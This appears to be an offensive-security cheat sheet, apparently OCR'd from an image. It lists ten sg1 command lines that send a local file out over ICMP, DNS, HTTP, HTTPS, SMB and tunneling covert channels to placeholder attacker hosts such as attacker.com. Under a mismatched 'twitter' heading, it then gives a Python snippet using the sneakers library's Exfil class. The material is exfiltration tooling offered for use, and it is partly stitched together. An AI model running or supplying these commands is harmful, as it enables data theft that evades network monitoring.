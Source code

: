 1. **Using sg1 to exfiltrate data via ICMP covert channel:**


`sg1 icmp -i eth0 -f /path/to/local/file.txt -d [attacker_IP]`

2. **Using sg1 to exfiltrate data via DNS covert channel:**


`sg1 dns -i eth0 -f /path/to/local/file.txt -d [attacker_domain]`

3. **Using sg1 to exfiltrate data via HTTP covert channel:**


`sg1 http -i eth0 -f /path/to/local/file.txt -u http://attacker.com/upload`

4. **Using sg1 to exfiltrate data via HTTPS covert channel:**


`sg1 https -i eth0 -f /path/to/local/file.txt -u https://attacker.com/upload`

5. **Using sg1 to exfiltrate data via SMB covert channel:**


`sg1 smb -i eth0 -f /path/to/local/file.txt -s [attacker_smb_share] -u [username] -p [password]`

6. **Using sg1 to exfiltrate data via DNS tunneling covert channel:**


`sg1 dnstun -i eth0 -f /path/to/local/file.txt -d [attacker_domain]`

7. **Using sg1 to exfiltrate data via HTTP tunneling covert channel:**


`sg1 httptun -i eth0 -f /path/to/local/file.txt -u http://attacker.com/upload`

8. **Using sg1 to exfiltrate data via SMB tunneling covert channel:**


`sg1 smb_tunnel -i eth0 -f /path/to/local/file.txt -s [attacker_smb_share] -u [username] -p [password]`

9. **Using sg1 to exfiltrate data via ICMP tunneling covert channel:**


`sg1 icmptun -i eth0 -f /path/to/local/file.txt -d [attacker_IP]`

10. **Using sg1 to exfiltrate data via DNS multi-packet covert channel:**


`sg1 dns_multi -i eth0 -f /path/to/local/file.txt -d [attacker_domain]`



### Social Media

1. twitter

```
  from sneakers import Exfil

  print(Exfil.list_channels())
  print(Exfil.list_encoders())

  channel = "file"
  encoders = ["b64"]

  dataz = "very secret and private message"

  # think of the exfil object like a tube
  # (or some kind of weird socket)
  t = Exfil(channel, encoders)

  t.set_channel_params({'sending': {'filename': 'test.txt'},
                        'receiving': {'filename': 'test.txt'}})

  t.set_encoder_params('b64', {})
  # this isn't actually necessary, just for demonstration

```